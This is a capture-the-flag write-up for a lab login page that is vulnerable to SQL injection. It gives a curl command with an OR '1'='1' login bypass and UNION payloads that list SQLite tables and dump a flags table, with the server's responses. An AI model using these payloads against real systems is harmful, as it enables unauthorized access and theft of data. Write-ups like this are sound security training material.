

# SQ-WHELL — SQLi Login Bypass

> **Author:** mr.p4rr0t • **Tag:** `#mr.p4rr0t`



> A login page vulnerable to SQL injection. Bypass authentication and extract the flags from the database.

**Target:** `https://nexacorp-4qlx.onrender.com/`

**Flags:**

- `[REDACTED]` (products catalog)
- `[REDACTED]` (search/dump)

## Challenge

An employee portal with a login form. The server helpfully returns the raw SQL query in the response, making exploitation straightforward — no blind techniques needed.

## Reconnaissance

Login sends a JSON POST to `/api/lab/login`:

```json
{"username": "admin", "password": "admin"}
```

The server returns the raw SQL query in the response:

```json
{
  "success": false,
  "query": "SELECT id, username, role, email FROM users WHERE username = 'admin' AND password = 'admin'",
  "message": "Invalid credentials"
}
```

## Solution

1. **Bypass the login.** Standard `OR 1=1` injection in the username field:

```bash
curl -s "https://nexacorp-4qlx.onrender.com/api/lab/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin' OR '1'='1","password":"x"}'
```

Response confirms success:

```json
{
  "success": true,
  "query": "SELECT id, username, role, email FROM users WHERE username = 'admin' OR '1'='1' AND password = 'x'",
  "token": "eyJhbG...",
  "user": {"id":1, "username":"admin", "role":"admin", "email":"admin@corp.internal"}
}
```

2. **Enumerate the internal endpoints.** Authenticated with the token, three SQLi-exploitable endpoints become available:

| Endpoint | Query Pattern | Columns |
|---|---|---|
| `POST /api/lab/craft` | `SELECT id, username, role FROM users WHERE username = '...'` | 3 |
| `POST /api/lab/search` | `SELECT id, username, email, role FROM users WHERE username LIKE '%...%'` | 4 |
| `POST /api/lab/products` | `SELECT id, name, category, price, stock, sku FROM products WHERE name LIKE '%...%' OR category LIKE '%...%'` | 6 |

3. **Enumerate the database.** Using the craft endpoint (simplest — no `LIKE` wrapper) with UNION injection:

```sql
' UNION SELECT 1,tbl_name,3 FROM sqlite_master --
```

Found 4 tables: `users`, `products`, `tasks`, `flags`.

4. **Check the `flags` table schema:**

```sql
' UNION SELECT 1,sql,3 FROM sqlite_master WHERE name='flags' --
```

```sql
CREATE TABLE flags (id INTEGER PRIMARY KEY, lab TEXT NOT NULL, flag TEXT NOT NULL)
```

5. **Dump both flags:**

```sql
' UNION SELECT 1,lab||':'||flag,3 FROM flags --
```

Result:

```
products : [REDACTED]
search   : [REDACTED]
```

Confirmed on the products endpoint, which returns a `flag` field in its JSON when the injection succeeds.

## Flag

```
[REDACTED]
[REDACTED]
```

## Key Takeaways

- **Reflective error messages** that include the raw SQL query make SQLi trivially exploitable — no blind techniques needed.
- **UNION-based SQLi** works when the column count is matched; `sqlite_master` reveals all tables.
- **Multiple endpoints, same vulnerability** — the app had three independent SQLi points, all feeding into the same `flags` table.
